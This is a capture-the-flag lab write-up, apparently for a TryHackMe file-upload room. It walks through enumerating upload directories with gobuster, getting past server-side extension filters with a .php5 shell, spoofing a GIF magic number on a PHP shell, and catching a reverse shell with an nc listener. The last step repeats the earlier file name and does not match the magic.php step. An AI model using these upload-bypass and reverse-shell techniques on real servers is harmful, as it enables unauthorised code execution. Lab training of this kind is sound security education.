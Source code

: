 
## Server-Side filtering bypass - extensions

> 📌 "The key to bypassing any kind of server side filter is to enumerate and see what is allowed, as well as what is blocked; then try to craft a payload which can pass the criteria the filter is looking for."
>

- Find the assets folder

```bash
gobuster dir -u http://annex.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://annex.uploadvulns.thm/assets/](http://annex.uploadvulns.thm/assets/)
- [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/) - this is where the files are uploaded with randomized naming scheme
- Try to upload `shell.php` - errors
- Try to upload `shell-png.php` - errors
- Try to upload `shell.php5` - works, file uploaded successfully
- Set up a `nc` listener and navigate to [http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell

```bash
nc -nvlp 1234

# Rev Shell
uid=33(www-data) gid=33(www-data) groups=33(www-data)

$ cat /var/www/flag.txt
```

---

## Server-Side filtering bypass - magic numbers

> 📌 Magic numbers, the initial hex digits in a file, can validate file uploads by matching against a whitelist or blacklist, though their reliability varies by webserver type.
>
> - [List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)

```bash
gobuster dir -u http://magic.uploadvulns.thm/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64
```

- [http://magic.uploadvulns.thm/graphics/](http://magic.uploadvulns.thm/graphics/)
- [http://magic.uploadvulns.thm/assets/](http://magic.uploadvulns.thm/assets/)
- Try to upload `shell.php` - errors "GIFs only please!"
- Duplicate `shell.php` to `magic.php` file. Edit it with a hex editor and add the GIF file signature (ASCII is `GIF87a` - check [Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures) )
- Upload the new `magic.php` file with GIF Hex signature - "File successfully uploaded"
- Set up a `nc` listener and navigate to [http://magic.uploadvulns.thm/graphics/magic.php](http://magic.uploadvulns.thm/graphics/magic.php)
  - Access the randomized naming `*-shell.php5` file to receive the reverse shell
